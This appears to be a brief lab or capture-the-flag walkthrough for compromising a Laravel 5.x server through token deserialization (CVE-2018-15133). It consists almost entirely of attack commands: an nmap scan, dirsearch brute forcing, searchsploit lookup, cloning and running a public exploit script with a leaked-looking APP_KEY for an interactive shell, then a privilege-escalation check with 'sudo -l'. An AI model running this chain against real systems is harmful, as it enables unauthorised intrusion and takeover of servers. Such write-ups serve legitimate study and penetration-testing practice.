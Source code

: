 ### Laravel 5.x Token Deserialization

**1. Port Scan**

```bash
 sudo nmap -sS -sV -sC --top-ports 100 ip_address -oA ip_address
 ```
 
 **2. Web Directory Brute Force**
 
 ```bash
 dirsearch -u http://ip_address
 ```
 
**3. Search posible Laravel 5.x exploit**
 
 ```bash
 searchsploit laravel
 ```
 
**4. Exploit**
 
 ```bash
git clone https://github.com/aljavier/exploit_laravel_cve-2018-15133
cd exploit_laravel_cve-2018-15133/
pip3 install -r requirements.txt

python3 pwn_laravel.py http://ip_address/ dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive
```

**5. Privellege Escalation**

```bash
sudo -l

# https://gtfobins.github.io/
```

